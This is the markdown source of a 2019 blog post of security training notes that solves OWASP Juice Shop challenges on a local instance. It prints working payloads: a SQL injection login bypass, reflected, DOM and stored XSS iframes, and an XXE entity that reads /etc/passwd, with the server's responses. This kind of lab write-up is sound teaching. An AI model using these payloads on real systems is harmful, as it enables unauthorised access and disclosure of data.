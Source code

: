 ```yaml
---
layout:            post
title:             Security Training Day 2
lang:                en
date:              2019-01-23 20:41:20 +0100
categories:        [tech]
tags:              [security, http, browser]
comments:          true
excerpt:           >
    My study notes of security training (day 2), including some ways of SQL
    injection, Cross-site scripting (XSS), and XML External Entity (XXE).
image:             /assets/bg-security-265130_1280.jpg
cover:             /assets/bg-security-265130_1280.jpg
article_header:
  type: overlay
  theme: dark
  background_color: "#203028"
  background_image:
    gradient: "linear-gradient(135deg, rgba(0, 0, 0, .6), rgba(0, 0, 0, .4))"
---
```


## Overview

This post is mainly a review of what have been taught during the security
training in day 2. In aims to share knowledge and make us aware of the
importance of security. After reading this article, you will understand:

- SQL Injection
- XSS: Cross-Site Scripting
- XXE: XML External Entity

Reminder: the security tools used here are [ZAP
Proxy](https://github.com/zaproxy/zaproxy) and [Juice
Shop](https://github.com/bkimminich/juice-shop) -- probably the most modern and
sophisticated insecure web application.

## SQL Injection

A [SQL injection attack](https://www.owasp.org/index.php/SQL_Injection)
consists of insertion or "injection" of a SQL query via the input data from the
client to the application. A successful SQL injection exploit can read
sensitive data from the database, modify database data (Insert/Update/Delete),
execute administration operations on the database (such as shutdown the DBMS),
recover the content of a given file present on the DBMS file system and in some
cases issue commands to the operating system. SQL injection attacks are a type
of injection attack, in which SQL commands are injected into data-plane input
in order to effect the execution of predefined SQL commands. This section solves
SQL Injection challenge in Juice Shop.

**Login Admin.** Log in with the administrator's user account. Firstly, go to
login page <http://localhost:3000/#/login>, enter an arbitrary login and
password, such as `foo@example.com` and `123`. UI shows "Invalid user or
password". Now, inspect HTTP request and response in ZAP Proxy where the url of
the entry is <http://localhost:3000/rest/user/login>. Open request editor and
edit the request body (excerpt 1). By the way, we can also imagine the SQL
query should be similar to the following form (excerpt 2).

```json
{
  "email" : "foo@example.com",
  "password" : "123"
}
```

```sql
SELECT *
  FROM Users
 WHERE email='foo@example.com' AND pass='123'
```

The SQL injection can be done as the first query parameter `email`. Use simple
quote `'` to end the quote (just in case), use criterion `OR 1=1` to ensure the
WHERE clause is always true and does not depend on email value, and use comment
`--` to comment the rest of the query. So the modification and expected SQL
looks like the following:

```json
{
  "email" : "' OR 1=1; --",
  "password" : "123"
}
```

```sql
SELECT *
  FROM Users
 WHERE email='' OR 1=1; -- ' AND pass='123'
```

The response returns the email of admin account with the correct token:

```json
{
  "authentication" : {
    "token" : "eyJhbG...",
    "bid" : 1,
    "umail" : "admin@juice-sh.op"
  }
}
```

Understand the usage of token `eyJhbG...` by inspecting the source code of
`main.js`, and finds out that user token will be saved in browser's local
storage after login action:

```js
this.userService.login(this.user).subscribe(function (n) {
  localStorage.setItem('token', n.token),
  l.cookieService.put('token', n.token),
  sessionStorage.setItem('bid', n.bid),
  l.userService.isLoggedIn.next(!0),
  l.router.navigate(['/search'])
}, function (n) { ... }
```

Therefore, we can set token to local storage manually to be able to simulate the
login action in browser console. After that, the login is successful as
expected.

```js
localStorage.setItem('token', 'eyJhbG...');
```

## Cross-Site Scripting (XSS)

[Cross-Site Scripting
(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) attacks are
a type of injection, in which malicious
scripts are injected into otherwise benign and trusted websites. XSS attacks
occur when an attacker uses a web application to send malicious code, generally
in the form of a browser side script, to a different end user. Flaws that allow
these attacks to succeed are quite widespread and occur anywhere a web
application uses input from a user within the output it generates without
validating or encoding it. There're 3 types of XSS:

- Reflected XSS
- Persisted XSS
- DOM Based XSS

Different XSS filter can be found at [OWASP - XSS Filter Evasion
CheatSheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).
This section solves different XSS challenges in Juice Shop.

**XSS Tier 0.** Perform a reflected XSS attack with
``<iframe src="javascript:alert(`xss`)">``. This can be done by providing a
malicious query parameter Order ID (`id`) in Track Result module
<http://localhost:3000/#/track-result?id=myOrder>. Using the following query
param will trigger a reflected XSS (value is url-encoded):

    http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E

**XSS Tier 1**. Perform a DOM XSS attack with
``<iframe src="javascript:alert(`xss`)">``. This can be done by manipulating the
query param `q` in "search" module (<http://localhost:3000/#/search?q=apple>).
The result is not escaped, which leads to XSS.

<p align="center">
  <img src="/assets/20190123-xss-1.png"
       alt="XSS Tier 1">
</p>

**XSS Tier 2.** Perform a persisted XSS attack with
``<iframe src="javascript:alert(`xss`)">`` bypassing a client-side security
mechanism. This can be done by manipulating the user creation form. Go to
register page <http://localhost:3000/#/register> and enter username / password
as `foo@example.com` and `12345`. Then, modify the HTTP request in ZAP Proxy and
resend the request to server:

```json
{
  "email" : "foo@example.com<iframe src=\"javascript:alert(`xss`)\">",
  "password" : "12345",
  "passwordRepeat" : "12345",
  "securityQuestion" : {
    "id" : 1,
    "question" : "Your eldest siblings middle name?",
    "createdAt" : "2019-01-23T19:56:54.665Z",
    "updatedAt" : "2019-01-23T19:56:54.665Z"
  },
  "securityAnswer" : "12345"
}
```

When internal users visit the admin page
<http://localhost:3000/#/administration>, an XSS will be triggered.

## XML External Entity (XXE) Processing

An [XML External Entity attack][1] is a type of attack against an application
that parses XML input. This attack occurs when XML input containing a reference
to an external entity is processed by a weakly configured XML parser. This
attack may lead to the disclosure of confidential data, denial of service,
server side request forgery, port scanning from the perspective of the machine
where the parser is located, and other system impacts. This section solves XXE
challenge in Juice Shop.

**XXE Tier 1.** Retrieve the content of `C:\Windows\system.ini` or `/etc/passwd`
from the server. First of all, we need to feed an entry-point for uploading
files, so that our XML file can be read by the server. One possibility is via
Customer Complain <http://localhost:3000/#/complain>, where a file can be
uploaded. By default, the input element only accepts file types `.pdf` and
`.zip`. This check can be skipped by choosing format option "All Support Types"
when browsing files (maybe different according to OS, I'm using macOS).

```html
<input _ngcontent-c17=""
       accept=".pdf,.zip"
       id="file"
       ng2fileselect=""
       type="file">
```

Then, choose a file to upload. For example, `~/feedback.xml`:

```xml
<msg>hi</msg>
```

Once uploaded, find out the server response and check if it reads the value.
From the response of <http://localhost:3000/file-upload>, we can extract the
following value:

> Error: B2B customer complaints via file upload have been deprecated for security reasons: &lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;msg&gt;Hi&lt;/msg&gt; (feedback.xml)

As you can see, the content of feedback has been extracted successfully. Further
more, the content has been expanded: XML header has been added. We can suppose
that XXE is possible in this case. Now, change the content of XML to the
following, where system entity `xxe` is defined and discloses the system
password file:

```xml
<!DOCTYPE msg [
<!ELEMENT msg ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<msg>&xxe;</msg>
```

Upload the same file again with the new content, then inspect the HTTP response
again:

> Error: B2B customer complaints via file upload have been deprecated for security reasons: &lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;!DOCTYPE msg [&lt;!ELEMENT msg ANY&gt;&lt;!ENTITY xxe SYSTEM &quot;file:///etc/passwd&quot;&gt;]&gt;&lt;msg&gt;### User Database# # Note that this file is consulted directly only when the sys... (feedback.xml)

The content is retrieved successfully.

## Conclusion

In this article, we saw the definition and challenges of three common security
problems: SQL Injection, Cross-Site Scripting (XSS) and XML External Entity
(XXE) processing. Through these challenges, we saw the impact of security
problems. Hope you enjoy this article, see you the next time!

[1]: https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
